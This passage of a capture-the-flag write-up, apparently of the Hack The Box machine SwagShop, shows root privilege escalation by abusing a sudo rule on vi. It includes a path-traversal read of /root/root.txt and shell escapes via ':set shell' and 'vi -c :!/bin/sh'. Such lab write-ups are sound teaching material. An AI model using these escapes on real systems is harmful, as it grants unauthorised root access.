 ```
~
~
"/var/www/html/../../../root/root.txt" 10L, 270C

```

### Shell

Of course I want a shell. I’ll open a non-existing file with `www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/a` .

[GTFOBins’ vi page](https://gtfobins.github.io/gtfobins/vi/) tells me how to get a shell from here:

```

:set shell=/bin/sh
:shell

```

I’ll use bash, but otherwise the same:

![](https://0xdfimages.gitlab.io/img/swagstore-root.gif)

`wc -c root.txt` returns 270, but that’s because there’s an extra message with the flag:

```

root@swagshop:/home/haris# cat /root/root.txt 
c2b087d6...

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!

```

### More Direct Shell

I can also use the other example on [GTFOBins](https://gtfobins.github.io/gtfobins/vi/), and get a shell from the command line:

```

www-data@swagshop:/var/www/html$ sudo vi /var/www/html/a -c ':!/bin/sh'

```

The formatting gets a bit wild on my shell making it difficult to show here, but it does return a root shell.